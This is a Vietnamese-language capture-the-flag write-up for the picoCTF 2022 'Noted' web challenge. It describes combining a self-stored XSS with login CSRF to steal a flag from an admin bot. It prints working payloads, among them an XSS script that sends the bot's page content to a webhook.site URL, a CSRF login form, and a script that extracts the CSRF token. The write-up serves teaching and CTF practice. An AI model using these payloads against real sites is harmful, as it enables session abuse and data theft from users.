 ```yaml
---
title: Noted - picoCTF2022
description: From picoCTF2022
author: to^
date: 2022-04-04 22:08:00 +0700
categories: [WebSec, CTF]
tags: [csrf, xss]     # TAG names should always be lowercase
img_path: /assets/img/
image:
 src: noted/pico.png
 alt: picoctf logo
 width: 1000
 height: 400
---
```


## _Sơ lược về challenge_
Trang gồm có hai chức năng `Login` và `Register`
![overview1](noted/overview1.png)
_overview1_

Tiếp đó ta thể tạo note và gửi link để report.
![overview2](noted/overview2.png)
_overview2_


## Phân tích
Sau khi thử thì mình nhận thấy có lỗi xss ở đây
[![test note](noted/overview2.png)](https://user-images.githubusercontent.com/77546253/161594213-8d0c1949-c9f1-410b-ae70-890f10590c89.mp4 "Link Title")
_Click to play video_

Suy ra bài này là một dạng Self Store XSS


Cũng tương tự như các bài xss khác, chức năng report sẽ làm con bot (đóng vai trò như admin) access đến link mà ta gửi.
![report](noted/report.png)
_report.js_
Bot sẽ tạo một tài khoản với tk, mk random và tạo một note với content chính là flag. Sau đó sẽ access tới url được report.

Trong `web.js` có thể thấy server dùng csrf token trong các route.
![csrf](noted/webjs.png)
_web.js_


## _Khai thác_
Bởi vì sau khi vừa tạo note thì phiên hoạt động của bot vẫn còn hiệu lực nên từ đó ta sẽ nghĩ cách để có thể lấy nội dung từ trang `/notes` của con bot (chứa flag) và gửi đến webhook hoặc có thể tạo một note mới với content là flag ở account của ta.

Bởi vì sau khi vừa tạo note thì session của bot vẫn còn lưu trên trình duyệt nên từ đó ta sẽ nghĩ cách để có thể lấy nội dung từ trang `/notes` của con bot (chứa flag) và gửi đến webbook hoặc có thể tạo một note mới với content là flag ở account của ta.


### Gửi đến webhook
Cách này không đòi hỏi phải extract csrf token
![flow1](noted/flow1.png)
_flow1_



Đầu tiên ta khởi tạo 1 account với `tk,mk: bla` mục đích là lưu xss script có vai trò gửi nội dung của `window` chứa flag tới webhook của ta.

XSS note sẽ có nội dung như sau:
```html
<script>
  if (window.location.search.includes('pwn'))
    window.location = 'https://webhook.site/<id>?' + window.open('', 'flag').document.body.textContent
</script>
```
Ở đây ta dùng `window.location.search.includes` là để tránh việc bị redirect liên tục tới webhook.

Tiếp theo ở exploit server ta tạo một `index.html` với layout
![exploit server](noted/exp_sv.png)
_flow2_

Csrf form sẽ là:
```html
    <form action='http://0.0.0.0:8080/login' method='POST' id='csrf' target='_blank'>
        <input type="text" name="username" value="bla">
        <input type="text" name="password" value="bla">
    </form>
```

Script để exploit sẽ là:
```html
    <script>
        window.open('http://0.0.0.0:8080/notes', 'flag');
        setTimeout(`csrf.submit()`, 1000);
        setTimeout(`window.location='http://0.0.0.0:8080/notes?pwn'`, 1500);
    </script>
```
Trong csrf form ta thêm thuộc tính `target` và gán giá trị bằng `_blank` để reponse trả về từ `action` sẽ mở ở tab mới nếu không các dòng javascript ở bên dưới sẽ không được thực thi.

Để hiểu rõ hơn về cách khai thác này ta sẽ đặt tất cả lại với nhau:
 - Đầu tiên gửi cho con bot link exploit server, bot sẽ truy cập tới exploit server hay cụ thể là `index.html`
 - Đoạn script ở `index.html` sẽ open new tab với tên là `flag` (sẽ không yêu cầu nhập username, password bởi vì phiên hoạt động của bot vẫn còn và cửa sổ này sẽ chứa note với content là flag)
 - Sau 1s thì submit csrf form lúc này bot sẽ login vào account ta vừa tạo và kết quả hiển thị ở `new blank tab`
 - Sau 1,5s thì chuyển hướng từ exploit page đến `http://0.0.0.0:8080/notes?pwn` lưu ý rằng ở đoạn code trước ta đã đăng nhập vào tài khoản `bla` nên bây giờ cũng sẽ chuyển hướng tới `/notes` của `bla`. `?pwn` dùng để trigger store xss và gửi nội dung cửa sổ `flag` đến webhook.
Có thể thấy lúc này ta không hề vi phạm `same origin policy` khi lấy `document.body.textContent` từ 
cửa sổ `flag` bởi vì chúng đều thuộc cùng domain, port và scheme.

Và kết quả:
![result](noted/result.png)
_result_

### Extract csrf token
Ở cách này thì form csrf vẫn như cách kia nhưng có sự thay đổi về xss note và script exploit

Script exploit:
```html
    <script>
        window.open('http://0.0.0.0:8080/notes', 'flag')
        setTimeout(`csrf.submit()`, 1000);
    </script>
```

XSS note:
```html
<script>
fetch("/new").then(r => r.text()).then(r => {
    //extract csrf token từ '/new'
    let csrf = r.match(/_csrf" value="([^"]*)/)[1];
    //lấy flag
    let flag = window.open('', 'flag').document.querySelector("body>div>p").innerHTML;
    //tạo note với content là flag ở account của ta
    fetch("/new", { method: "POST", body: JSON.stringify({ _csrf: csrf, title: "PWNED!!!", content: flag }), headers: { 'Content-Type': 'application/json' } });
});
</script>
```
Kết quả:
![result'](noted/result'.png)
_result_

## _Tham khảo_
<https://docs.abbasmj.com/ctf-writeups/picoctf-2022#noted>




